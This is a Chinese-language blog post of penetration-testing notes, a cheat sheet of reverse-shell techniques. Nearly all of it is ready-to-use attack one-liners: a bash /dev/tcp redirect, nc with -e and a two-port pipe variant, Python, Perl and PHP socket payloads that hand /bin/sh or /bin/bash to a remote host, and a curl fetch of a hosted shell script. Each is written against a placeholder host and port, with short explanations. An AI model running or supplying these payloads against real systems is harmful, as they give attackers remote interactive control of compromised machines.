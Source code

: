 ```yaml
---
title: 关于反弹shell的姿势
date: 2020-03-05 15:26:53
tags:
 - shell
 - 渗透测试
categories:
 - 日常积累
---
```


## linux下的反弹

本机使用nc

```
nc -lvp port
```

<!--more-->

### bash

```
bash -i >& /dev/tcp/host/port 0>&1
```

> - linux shell下常用的文件描述符是：
>
>   > 1. 标准输入  (stdin) ：代码为 0 ，使用 < 或 << ； 
>   >
>   > 2. 标准输出  (stdout)：代码为 1 ，使用 > 或 >> ； 
>   >
>   > 3. 标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>。
>
> - bash -i 新开一个交互bash
>
> - \>&或者 &\>  将标准错误输出定向到标准输出中
>
> - 0>&1或者0<&1将标准输入重定向到标准输出中
>
> - /dev/tcp/host/port  使用tcp通道与host:post建立一个连接
>
> - 如果还是不清楚 参考手册https://www.gnu.org/software/bash/manual/bash.pdf 3.6 章redirections



### nc

```
nc -e /bin/bash host port
```

>nc -e   inbound program to exec [dangerous!!]



有些版本的NC没有-e选项，在本机开两个端口

```
nc -lvp port1
nc -lvp port2
```



受控机

```
nc host port1 | /bin/bash | nc host port2
```

>- 管道命令，从host:pot1输入数据交给 /bin/bash处理，再交给host：port2输出
>
>- 将nc 改成telnet 也是可以的





### python

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("host",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



### perl

```
perl -e 'use Socket;$i="host";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```



### php

```
php -r '$sock=fsockopen("host",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

> php反弹shell的这些方法都需要php关闭safe_mode这个选项，才可以使用exec函数



### 使用外置bash连接

```
curl http://ip:port/shell
```

shell内容

```
bash -i >& /dev/tcp/host/port 0>&1
```





参考连接

https://www.freebuf.com/news/142195.html

https://www.freebuf.com/articles/system/147768.html

https://www.freebuf.com/articles/system/178150.html

https://www.freebuf.com/articles/system/153986.html

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet